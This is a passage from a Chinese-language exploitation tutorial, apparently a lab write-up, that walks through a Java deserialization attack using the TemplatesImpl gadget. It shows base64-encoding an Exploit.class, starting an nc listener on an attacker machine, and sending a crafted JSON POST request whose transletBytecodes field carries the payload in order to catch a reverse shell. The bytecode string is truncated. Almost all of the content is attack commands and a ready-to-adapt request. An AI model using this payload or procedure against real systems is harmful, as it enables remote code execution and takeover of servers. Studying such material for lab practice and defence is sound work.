 ![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1646043050166-b44de2bc-a3b8-44a7-a428-f12a838ce6ce.png#clientId=u42853023-2f83-4&from=paste&height=70&id=uca3c15ed&margin=%5Bobject%20Object%5D&name=image.png&originHeight=93&originWidth=629&originalType=binary&ratio=1&size=23210&status=done&style=none&taskId=udfc78cb1-41f1-4b67-a940-1805532fd50&width=472)


### （2）将`Exploit.class`进行base64编码
```shell
cat Exploit.class | base64 -w 0 | xargs
```

![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1646043233400-0f6ac3db-79e2-411a-a20a-123b6cf9d230.png#clientId=u42853023-2f83-4&from=paste&height=122&id=u2749c33f&margin=%5Bobject%20Object%5D&name=image.png&originHeight=163&originWidth=761&originalType=binary&ratio=1&size=45853&status=done&style=none&taskId=u67807837-c715-4be2-8a88-7961e8b28f4&width=571)


### （3）攻击机开启监听
```shell
nc -lvvp 5555
```


### （4）使用payload发送数据包，反弹shell
注意三点:

   - POST
   - Content-Type: application/json
   - transletBytecodes 值替换成我们 base64 后的 payload

![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1646049775606-d43edb81-d93a-4c6c-aedf-4f1e8ab91e4b.png#clientId=u8fb2b5d4-b11c-4&from=paste&height=493&id=ub5cc001a&margin=%5Bobject%20Object%5D&name=image.png&originHeight=657&originWidth=1042&originalType=binary&ratio=1&size=93911&status=done&style=none&taskId=u4f535162-6209-40df-b569-3fe4b26c87c&width=782)


数据包如下：
```shell
POST /exploit HTTP/1.1
Host: 192.168.210.206:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 1866

{
  "param": [
    "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl",
    {
      "transletBytecodes": [
  "yv66vgAAADEANQoADQAcBwAdEAIwoAJAAlB...zZm9ybQEApihMY29tLAAfAAgAIAATAAAABAABABcAAQAaAAAAAgAb"
      ],
      "transletName": "a.b",
      "outputProperties": {}
    }
  ]
}
```
